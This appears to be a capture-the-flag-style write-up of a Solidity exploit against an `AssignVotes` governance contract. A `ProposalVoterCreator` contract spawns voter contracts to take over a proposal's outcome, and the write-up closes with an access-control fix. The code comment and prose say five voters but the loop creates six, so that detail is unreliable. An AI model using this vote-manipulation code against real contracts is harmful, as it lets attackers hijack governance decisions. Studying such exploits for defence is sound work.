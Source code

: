 ## Vulnerability and Takeaways

The vulnerability in this code lies in the `AssignVotes` contract's ability to assign votes to any address, including the attacker's contract. The `MaliciousContract` contract takes advantage of this by creating a proposal and then creating two instances of `ProposalVoterCreator` contracts to create voters to vote on the proposal. Each `ProposalVoterCreator` contract creates five `Voter` contracts and assigns each of them to vote on the proposal. Since the attacker controls the `ProposalVoterCreator` contract, they can assign the voters to vote for their proposal, effectively controlling the outcome of the proposal.

```solidity
// Contract to create voters for a proposal
contract ProposalVoterCreator {
    // Create an immutable reference to the victim contract
    AssignVotes immutable victim;

    constructor(address _victimAdd, uint256 _proposalNumber) {
        victim = AssignVotes(_victimAdd);

        // Create five Voter contracts to vote on the proposal
        for (uint8 i; i < 6; i++) {
            Voter voterI = new Voter(_victimAdd);

            victim.assign(address(voterI));

            // Vote on the proposal using the voter contract
            voterI.vote(_proposalNumber);
        }
    }
}
```

One possible solution to prevent the exploit in this code would be to implement stricter access control mechanisms, such as only allowing certain trusted addresses to assign votes. This would prevent any unauthorized actors from assigning votes and manipulating the outcome of proposals.
